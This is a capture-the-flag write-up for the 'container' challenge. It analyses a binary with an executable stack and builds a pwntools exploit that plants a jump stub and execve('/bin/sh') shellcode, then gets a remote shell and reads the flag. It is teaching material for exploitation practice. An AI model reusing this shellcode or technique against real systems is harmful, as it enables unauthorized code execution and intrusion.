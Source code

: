 This is a writeup for the [NGACTF](https://nicerc.org/events/nga-capture-the-flag/) challenge *container*.
For this challenge the only file provided is an executiable binary.
### Inital steps
The best idea is to first get a basic idea of what security mesaures are already present in the binary so we know what is feasible and what is not. Running checksec will provide exactly the information we desire. 
>troy@troyscomputer$ checksec container
>    Arch:     i386-32-little
>    RELRO:    Partial RELRO
>    Stack:    No canary found
>    NX:       NX disabled
>    PIE:      PIE enabled
>    RWX:      Has RWX segments

We can see that there are no stack canarries (so buffer overflows will be possible) as well as NX is disabled so the stack is executiable. 
### Getting a closer look
As they didn't provide source code, let's get a better look at whats going on by firing up [Ghidra](https://ghidra-sre.org/)
```
int main() {
  char buf [5];
  char buf60 [60];
  code buf10 [10];
  void* code;
  do {
    printf("Choose a command:\n1: Use premium storage container 1\n2: Use premium storage container2\n3: Use secondary storage box\n4: Run the contents of your premium storage container\n>");
    fflush(stdout);
    fgets(buf,5,stdin);
    if (buf[0] == '1') {
      puts("This container provides 10 bytes of premium storage.");
      fflush(stdout);
      puts("A premium storage container allows you to run your content, too!");
      fflush(stdout);
      printf("Go ahead and store your content: ");
      fflush(stdout);
      fgets((char *)buf10,10,stdin);
    }
    if (buf[0] == '2') {
      printf("Sorry, but this container is already in use. You can use the premium storage incontainer1.");
      fflush(stdout);
    }
    if (buf[0] == '3') {
      puts("This storage box is for 50 bytes of extra content. You can\'t run it, but it won\'t takeup your premium storage space.");
      fflush(stdout);
      printf("Go ahead and store your content: ");
      fflush(stdout);
      fgets(buf60,50,stdin);
    }
    if (buf[0] == '4') {
      puts("Okay, I\'ll run the contents of your premium container!");
      fflush(stdout);
      code = buf10;
      (*(code *)code)();
    }
  } while( true );
}
```
The code looks pretty simple. It is contained entierly inside the main function which continually asks the user to pick an option that executes the desired function. Choosing "1" writes at most 10 bytes into buf10, "3" does the same for buf60, "2" does nothing for our purposes, and "4" *EXECUTES* buf10!
```
puts("Okay, I\'ll run the contents of your premium container!");
fflush(stdout);
code = buf10;
(*(code *)code)();
```
Be sure to review [C function pointers](https://www.learn-c.org/en/Function_Pointers) if the syntax `(*(code *)code)();` looks *too* cryptic.
Great. All we need to do is select option 1, enter some x86 linux shellcode that gives a shell, select 4 to run our code, a shell pops up, and we get the flag!
[Shell Storm](http://shell-storm.org/shellcode/) is a great website that houses short snipits of machine code that do specific things. As this is a 32 bit linux executable we only want shellcode that for x86 linux.
[This shellcode](http://shell-storm.org/shellcode/files/shellcode-752.php) is perferect for our needs. It is equilivant to execve("/bin/sh") and happens to be nice and short at 21 bytes. Unfourtantly this is too long for buf10 because `fgets((char *)buf10,10,stdin);` will copy at most 9 characters into buf10 (don't forget the null-byte). However we can put the longer shell code into the bigger buffer and put code that simply jumps to the larger buffer into the 10 byte buffer.
The disassembly in Ghidra before the fgets call will tell us that the 60 byte buffer always starts 0x52 bytes below EBP.
```
LEA        EAX=>buf60,[EBP -0x52]
PUSH       EAX
CALL       fgets
```
The code we need will have to jump to EBP -0x52 in order to invoke the 21 byte shellcode there. With the help of [this website](https://defuse.ca/online-x86-assembler.htm) creating the machine code is easy.
```
mov    eax,ebp
sub    eax,0x52
jmp    eax
```
This assembler copies the stack base pointer (EBP) into eax then subtracts 0x52 (now eax points to the 60 byte buffer), finally the last instruction jumps there and starts executing our shellcode.
Clicking assemble gives us "\x89\xE8\x83\xE8\x52\xFF\xE0", the actual bytes of the machine code which will be executed by `(*(code *)code)();`
### Creating the exploit

Using pwn tools we can easily create a connect script the connects to their server and gives it our juicy code. The script is as easy as defining some constants and importing pwn tools,
```
from pwn import *
shell = "\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"

jmp60 = "\x89\xE8\x83\xE8\x52\xFF\xE0"
```
Connectint to the remote server and waiting for the prompt,
```
r = remote("golf.virginiacyberrange.net", 40149)
r.recvuntil(">")
```
Choosing 1 and uploading the `jmp EBP-0x52` code
```
r.sendline("1")
r.recvuntil("Go ahead and store your content:")
r.sendline(jmp60)
```
Choosing 3 and sending the shellcode,
```
r.recvuntil(">")
r.sendline("3")
r.recvuntil("Go ahead and store your content:")
r.sendline(shell)
```
And selecting 4 to run our jmp + shellcode:
```
r.recvuntil(">")
r.sendline("4")
print(r.recvline())
r.interactive()
```
A sample run:
```
troy@troyscomputer$ python maker.py
[+] Opening connection to golf.virginiacyberrange.net on port 40149: Done
Okay, I'll run the contents of your premium container!

[*] Switching to interactive mode
$ ls
bin
container
dev
flag
lib
lib32
lib64
$ cat flag
flag{ju5t_4_h0p_sk1p_and_4_jmp_to_exploit}
```

Heres the entire script:
```
from pwn import *
shell = "\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"

jmp60 = "\x89\xE8\x83\xE8\x52\xFF\xE0"

r = remote("golf.virginiacyberrange.net", 40149)
r.recvuntil(">")

r.sendline("1")
r.recvuntil("Go ahead and store your content:")
r.sendline(jmp60)

r.recvuntil(">")
r.sendline("3")
r.recvuntil("Go ahead and store your content:")
r.sendline(shell)

r.recvuntil(">")
r.sendline("4")
print(r.recvline())
r.interactive()
```
